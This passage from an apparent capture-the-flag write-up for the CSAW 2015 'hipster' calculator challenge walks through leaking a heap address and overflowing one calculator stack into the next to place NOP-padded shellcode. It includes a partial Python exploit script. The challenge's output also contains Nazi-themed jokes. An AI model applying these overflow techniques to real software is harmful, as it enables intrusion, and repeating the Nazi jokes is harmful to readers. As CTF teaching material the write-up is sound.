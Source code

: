 So `8 bytes into our stack - 4` is just 4 bytes in, which is a pointer to the top of the stack. This is important as we will use this to read out the random value from a stack we create.

<pre>
[vagrant@kamino csaw2015finals]$ ./hipster
Sieg Heil!
Welcome to Hipster Hitler's Pocket Calculator!
My computing resources await you, mein Führer.
We now use Reverse Polish Notation as a result of our recent conquest of Poland.
All commands are prefixed with ':'.
Type :help for a list of commands.
==> :new
Switching to new stack, mein Führer.
==> :top
154038288
==> ^C
[vagrant@kamino csaw2015finals]$ python -c 'print hex(154038288)'
0x92e7010
</pre>

Kewl, so since the allocation of each stack is a multiple of 4, we can pretty much be sure that each stack will be allocated right next to each other. Therefore, with the leak that we have of the top of the stack for the first allocation, we will have to throw in `0xac` bytes into stack #1 to get to the point where we are about to overflow into stack #2s top of stack pointer. We will then put a pointer to point to stack #1s random value.

<pre>
[-------- top --------]
stack1+0    random value
stack1+4    pointer to top of stack
stack1+8    shellcode and nops
...
stack1+164  shellcode and nops
[-------- end --------]
[-------- top --------]
stack2+0    shellcode and nops
stack2+4    overflowed with pointer to stack1+0
stack2+8    numbers and stuff
...
stack2+164  numbers and stuff
[-------- end --------]
</pre>

I also decided to just use stack #1 as the place to store the shellcode and just pad it with nops. Since we are just using a stack based calculator, you have to come up with some way to write arbiturary values by using math. `write_num` in the exploit script is a demonstration on how to do this.

{% highlight python lineanchors %}
# Create stack #2 in order to leak random value
new_stack(r)

# Getting the next stack puts us back at stack #1
next_stack(r)

# Throw our shellcode into stack #1
padding = string.ljust(shellcode, 0xac, "\x90")
write_vals(r, padding)

# Position stack #2s top of stack to point to random value
random_val_offset = -0xb4
write_num(r, heap_addr + random_val_offset)